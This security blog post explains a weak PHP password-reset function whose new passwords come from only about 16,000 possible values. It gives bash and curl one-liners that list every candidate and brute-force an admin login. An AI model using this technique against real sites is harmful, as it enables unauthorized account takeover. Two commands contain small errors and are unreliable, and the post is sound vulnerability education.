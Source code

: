 ```yaml
---
id: 1656
title: 'Hacking crappy password resets (part 2)'
date: '2013-10-14T13:00:49-05:00'
author: 'Ron Bowes'
layout: revision
guid: 'http://blog.skullsecurity.org/2013/1059-revision-v1'
permalink: '/?p=1656'
---
```


Hey,

In my [last post](/blog/2011/hacking-crappy-password-resets-part-1), I showed how we could guess the output of a password-reset function with a million states. While doing research for that, I stumbled across some software that had a mere 16,000 states. I will show how to fully compromise this software package remotely using the password reset.

## The code

First, let's take a look at the code:

```

<font color="#ffa500"><?php</font><br></br>
  <font color="#ffff60"><b>if</b></font> <font color="#ffa500">(</font><font color="#40ffff">strtolower</font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">cfgrow</font><font color="#ffa500">[</font>'<font color="#ffa0a0">email</font>'<font color="#ffa500">])</font><font color="#ffff60"><b>==</b></font><font color="#40ffff">strtolower</font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">_POST</font><font color="#ffa500">[</font>'<font color="#ffa0a0">reminderemail</font>'<font color="#ffa500">]))</font><br></br>
  <font color="#ffa500">{</font><br></br>
    <font color="#80a0ff">// generate a random new pass</font><br></br>
    <font color="#ffff60"><b>$</b></font><font color="#40ffff">user_pass</font> <font color="#ffff60"><b>=</b></font> <font color="#40ffff">substr</font><font color="#ffa500">(</font> <font color="#40ffff">MD5</font><font color="#ffa500">(</font>'<font color="#ffa0a0">time</font>' <font color="#ffff60"><b>.</b></font> <font color="#40ffff">rand</font><font color="#ffa500">(</font><font color="#ffa0a0">1</font>, <font color="#ffa0a0">16000</font><font color="#ffa500">))</font>, <font color="#ffa0a0">0</font>, <font color="#ffa0a0">6</font><font color="#ffa500">)</font>;<br></br>
    <font color="#ffff60"><b>$</b></font><font color="#40ffff">query</font> <font color="#ffff60"><b>=</b></font> "<font color="#ffa0a0">update config set password=MD5('</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">user_pass</font><font color="#ffa0a0">') where [...]</font>"<br></br>
    <font color="#ffff60"><b>if</b></font><font color="#ffa500">(</font><font color="#40ffff">mysql_query</font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">query</font><font color="#ffa500">))</font><br></br>
    <font color="#ffa500">{</font><br></br>
       <font color="#80a0ff">// ...</font><br></br>
<font color="#ffa500">?></font><br></br>
```

## The vulnerability

The vulnerability lies in the password generation:

```
    <font color="#ffff60"><b>$</b></font><font color="#40ffff">user_pass</font> <font color="#ffff60"><b>=</b></font> <font color="#40ffff">substr</font><font color="#ffa500">(</font> <font color="#40ffff">MD5</font><font color="#ffa500">(</font>'<font color="#ffa0a0">time</font>' <font color="#ffff60"><b>.</b></font> <font color="#40ffff">rand</font><font color="#ffa500">(</font><font color="#ffa0a0">1</font>, <font color="#ffa0a0">16000</font><font color="#ffa500">))</font>, <font color="#ffa0a0">0</font>, <font color="#ffa0a0">6</font><font color="#ffa500">)</font>;<br></br>
```

The new password generated is the md5() of the literal string 'time' (\*not\* the current time, the \*word\* "time") concatenated with one of 16,000 random numbers, then truncated to 6 bytes. We can very easily generate the complete password list on the commandline:

```
$ seq <font color="#ffa0a0">1</font> <font color="#ffa0a0">16000</font> | xargs <font color="#ffa500">-I</font> XXX sh <font color="#ffa500">-c</font> <font color="#ffff60"><b>"</b></font><font color="#ffa0a0">echo timeXXX | md5sum | cut -b1-6</font><font color="#ffff60"><b>"</b></font>
```

or, another way:

```
$ <font color="#ffff60"><b>for </b></font>i <font color="#ffff60"><b>in</b></font> <font color="#ffa500">`seq </font><font color="#ffa0a0">1</font><font color="#ffa500"> </font><font color="#ffa0a0">16000</font><font color="#ffa500">`</font>; <font color="#ffff60"><b>do</b></font> <font color="#ffff60"><b>echo</b></font><font color="#ffa0a0"> </font><font color="#ffff60"><b>"</b></font><font color="#ffa0a0">time</font><font color="#ff80ff">$i</font><font color="#ffff60"><b>"</b></font><font color="#ffa0a0"> </font><font color="#ffff60"><b>|</b></font> md5sum <font color="#ffff60"><b>|</b></font> cut -b1<font color="#ffa0a0">-6</font><br></br>
```

(By the way, for more information on using xargs, check out a really awesome blog posting called [Taco Bell Programming](http://teddziuba.com/2010/10/taco-bell-programming.html) - it's like real programming, but you can't legally call it "beef")

In either case, you'll wind up with 16,000 different passwords in a file. If you want to speed up the eventual bruteforce, you can eliminate collisions:

```
$ seq 1 16000 | xargs -I XXX sh -c "echo XXX | md5sum | cut -b1-6" | sort | uniq
```

If you do that, you'll wind up with 15,993 different passwords, ranging from '000b64' to 'fffcc0'. Now all that's left is to try these 15,993 passwords against the site!

## The attack

You can do this attack any number of ways. You can script up some Perl/Ruby/PHP, you can use a scanner like Burp Suite, or, if you're feeling really adventurous, you can write a quick config file for [http-enum.nse](http://nmap.org/svn/scripts/http-enum.nse). If anybody takes the time to replicate this with http-enum.nse, you'll win an Internet from me. I promise.

But why bother with all these complicated pieces of software when we have bash handy? All we need to do is try all 15,993 passwords using wget/curl/etc and look for the one page that's different. Done!

So, to download a single page, we'd use:

```
$ curl <font color="#ffa500">-s</font> <font color="#ffa500">-o</font> XXX.out <font color="#ffa500">-d</font> <font color="#ffff60"><b>"</b></font><font color="#ffa0a0">user=admin&password=XXX</font><font color="#ffff60"><b>"</b></font> <font color="#ffff60"><b><</b></font>site<font color="#ffff60"><b>></b></font>/admin/?<font color="#40ffff">x</font>=login<br></br>
```

This will create a file called XXX.out on the filesystem, which is the output from a login attempt with the password XXX. Now we use xargs to do that for every password:

```
$ cat passwords.txt | xargs <font color="#ffa500">-P32</font> <font color="#ffa500">-I</font> XXX curl <font color="#ffa500">-s</font> <font color="#ffa500">-o</font> XXX.out <font color="#ffff60"><b>\</b></font><br></br>
  <font color="#ffa500">-d</font> <font color="#ffff60"><b>"</b></font><font color="#ffa0a0">user=admin&password=XXX</font><font color="#ffff60"><b>"</b></font> <font color="#ffff60"><b><</b></font>site<font color="#ffff60"><b>></b></font>/admin/?<font color="#40ffff">x</font>=login<br></br>
```

Which will, in 32 parallel processes, attempt to log in with each password and write the result to a file named <password>.out. Now all we have to do figure out which one's different! After waiting for it to finish (or not.. it takes about 5-10 minutes), I check the folder:

```
$ md5sum *.out | head 
96ffbb1ba380de9fc9e7a3fe316ff631  000176.out
96ffbb1ba380de9fc9e7a3fe316ff631  0014c2.out
96ffbb1ba380de9fc9e7a3fe316ff631  001e7e.out
96ffbb1ba380de9fc9e7a3fe316ff631  002035.out
96ffbb1ba380de9fc9e7a3fe316ff631  00217c.out
96ffbb1ba380de9fc9e7a3fe316ff631  002c47.out
96ffbb1ba380de9fc9e7a3fe316ff631  003b9e.out
96ffbb1ba380de9fc9e7a3fe316ff631  004bff.out
96ffbb1ba380de9fc9e7a3fe316ff631  0057b8.out
96ffbb1ba380de9fc9e7a3fe316ff631  008dea.out
```

Sure enough, it's tried all the passwords and they all seemed to download the same page! Now we use grep -v to find the one and only download that's different:

```
$ md5sum *.out | grep -v 96ffbb1ba380de9fc9e7a3fe316ff631
d41d8cd98f00b204e9800998ecf8427e  b19261.out
```

And bam! We now know the password is "b19261".

## Conclusion

So there you have it - abusing a password reset to log into an account you shouldn't. And remember, even though we didn't test this with 1,000,000 possible passwords like last week's blog, it would only take about 60 times as long - so instead of a few minutes, it'd be a few hours. And as I said last week, that million-password reset form was actually pretty common.

And in case you think this is hocus pocus or whatever, I wrote the code shown here live, on stage, at Winnipeg Code Camp. It's towards the end of [my talk](http://vimeo.com/20718776).